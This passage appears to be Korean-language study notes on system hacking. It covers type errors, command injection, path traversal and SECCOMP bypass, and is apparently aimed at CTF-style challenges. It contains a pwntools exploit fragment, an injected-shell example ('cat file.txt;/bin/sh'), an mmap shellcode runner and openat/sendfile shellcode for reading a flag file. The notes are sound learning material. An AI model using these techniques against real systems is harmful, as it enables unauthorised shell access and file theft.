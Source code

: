     # call free (contaminated)
    p.sendlineafter(b'Edit\n', b'2')

    p.interactive()

    ```

### Logical Error
- OS 나 컴파일러의 구조적 취약점 뿐 아니라 개발자의 실수에 의한 취약점도 exploit 에 사용될 수 있다.

#### Type Error
- 변수에 담게 될 값의 크기, 용도, 부호 여부를 고려하지 않고 정의된 변수에 의해 의도치 않은 동작을 유발하는 에러
- `out of range` : 변수에 담을 수 있는 범위를 벗어나는 값을 저장하여 값이 잘리거나 부호가 반전되는 현상
  - overflow : 값이 잘려서 예상 값보다 커지는 현상 (unsigned char 에 256 대입)
  - underflow : 표현할 수 없는 값을 변수에 대입하여 예상 값보다 작아지는 현상 (unsigned int 에 -1 대입)

#### Command Injection
- C 언어에서 `system` 함수를 사용하여 커널 명령어를 호출하도록 프로그래밍을 수행할 수 있다. 
  - `system` 함수는 `execve` 시스템 콜을 호출하게 된다.
- `Metacharacter` 를 이용해 특정 명령어 이후 "/bin/sh" 를 명령어로 입력하게 되면 쉘 권한을 탈취 당하게 된다.
  - ex) `system("cat file.txt;/bin/sh")`: 의도한 동작은 `cat file.txt` 까지지만, `/bih/sh` 를 추가로 호출하였다.
#### Path Traversal
- 허용되지 않은 경로에 사용자가 접근할 수 있는 취약점
- 임의의 파일을 읽고/쓰고/실행 시킬 수 있는 위험이 있다.
- 프로그램에서 의도하지 않은 절대경로, 상대경로 상으로 접근이 불가능하도록 로직상 제약이 필요하다.

### Bypass SECCOMP
- `mmap` 을 이용하여 입력으로 받은 함수를 실행하도록 구현된 코드에서 exploit 을 위한 코드를 침투시킬 수 있으나, SECCOMP 기법으로 시스템콜을 차단함으로서 이를 방어할 수 있다.
  - mmap 코드 예시
    ```
    void *shellcode = mmap(0, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
    void (*sc)() = (void *)shellcode;
    sc();
    ```
- SECCOMP는 특정 시스템 콜을 허용하거나 차단하여 의도하지 않은 시스템 콜의 호출을 막는 방어 기법이다. 하지만 시스템의 지속적인 개발에 의해 유사한 역할을 하는 다른 시스템콜들이 계속 생겨나고 있다.
  - 예를들어 open 과 openat 은 동일한 역할을 수행하며, `open`을 차단한 프로그램이 `openat`을 차단하지 않았다면 이를 이용한 해킹이 가능하다.
  - 하지만, 시스템 콜 간에도 의존성이 있기 때문에 의존성이 있는 시스템 콜이 차단된 경우에는 우회가 불가능 될 가능성이 크다.
  - 반대로 특정 라이브러리 함수에 의존하는 함수를 SECCOMP 설정으로 허용 해 놓는다면, 그 함수 또한 허용 되어 있음을 암시적으로 알 수 있다.
    - `execve` 함수는 내부적으로 `openat` 함수를 호출하고 있다. 
  - `open`, `read`, `write` 는 타 시스템 콜의 영향을 받지 않고 실행할 수 있는 함수이다.

#### exploit 예시
  - `open` 함수를 막는 형태의 소스코드가 있을 떄, `openat` 를 사용하여 파일을 탈취하는 공격 방식이다.
    - 코드 일부: `seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(open), 0);`
    - 단, `openat`은 첫 번째 인자를 `AT_FDCWD` 로 설정해야 open과 동일한 효과를 낸다.
      - `openat` 은 첫 번쨰 인자로 받은 file descriptor 에 해당하는 디렉터리에서 부터 상대 주소를 검색한다. 첫 번쨰 인자로 `AT_FDCWD` 를 입력하면 현재 작업 디렉터리를 기준으로 상대 주소를 검색하게 된다.
  ```
  #!/usr/bin/env python3

  from pwn import *

  context.arch = 'x86_64' # 아키텍처 설정
  # p = process('./bypass_seccomp')

  data = shellcraft.openat('AT_FDCWD', "./flag") # AT_FDCWD 옵션을 넣어 현재 경로부터 상대 경로를 검색하도록 설정
  data += 'mov r10, 0xffff' # r10은 sendfile 호출시 전달할 데이터의 양을 뜻한다.
  data += shellcraft.sendfile(1, 'rax', 0).replace('xor r10d, r10d','')# sendfile 호출시 `xor r10d, r10d` 구문이 자동으로 들어가서 r10을 초기화하므로 이를 제거한다.
  ```
